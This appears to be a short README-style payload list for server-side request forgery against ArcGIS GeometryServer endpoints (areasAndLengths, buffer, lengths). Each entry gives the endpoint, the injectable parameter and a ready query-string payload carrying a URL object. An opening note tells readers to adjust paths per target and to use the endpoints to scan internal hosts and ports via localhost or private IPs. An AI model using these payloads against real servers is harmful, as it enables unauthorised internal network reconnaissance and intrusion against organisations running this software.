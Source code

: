 Note: The paths may slightl vary from target to target so adjust them as needed. Each endpoint can be leveraged for internal network scan/internal port scan by using `http://127.0.0.1:25` or `http://localhost:25` or `http://<private_ip>`.

## 1.
Endpoint: `Utilities/Geometry/GeometryServer/areasAndLengths`
Parameter: `polygons`
Sample payload: `sr=102009&polygons={"url":"http://example.com"}&lengthUnit=9035&areaUnit=%7B%22areaUnit%22:%22esriAcres%22%7D&calculationType=preserveShape&f=json`
Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/areas-and-lengths/

## 2. 
Endpoint: `/Utilities/Geometry/GeometryServer/buffer`
Parameter: `geometries`
Sample payload: `?geometries={"url":"http://example.com"}&inSR=4326&outSR=4326&bufferSR=3857&distances=1000&f=json`
Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/buffer/

## 3. 
Endpoint: `/Utilities/Geometry/GeometryServer/lengths`
Parameter: `polylines`
Sample payload: `sr=4269&polylines={"url":"http://example.com"}&lengthUnit=9036&calculationType=preserveShape&f=json`
Documentation: https://developers.arcgis.com/rest/services-reference/enterprise/lengths/
